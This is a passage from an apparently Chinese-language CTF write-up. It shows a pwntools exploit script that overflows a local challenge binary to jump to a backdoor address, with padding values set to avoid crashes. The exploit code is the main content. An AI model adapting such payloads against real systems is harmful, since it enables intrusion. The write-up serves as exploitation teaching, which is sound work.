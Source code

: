 此时只需要将对应的值替换为后门即可，成功完成利用

[![](assets/1701606796-8afc7b9704b5de2ce983677f04ac7990.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103154536-f99c4084-7a1c-1.png)

> 这里局部变量的调试比较枯燥，直接跟着断点看看哪里 crash 然后更改变量为合适的值即可，不做详细阐述

### exp

最终的参考 exp 如下

```plain
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401259')

# p()
backdoor = 0x401a7d    
io.recvuntil("called")
payload = b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += p64(0xff) #防止 crash
payload += p64(backdoor)
payload += p64(0x4a6001) #防止 crash
payload += b'g'*8
payload += p64(0x004032a4+1)
payload += p64(0x402df0+1)
io.send(payload)

io.interactive()
```

> 在下篇文章将会深入介绍与传统 ROP 以及 Sigreturn 之间相互配合利用的攻击手法
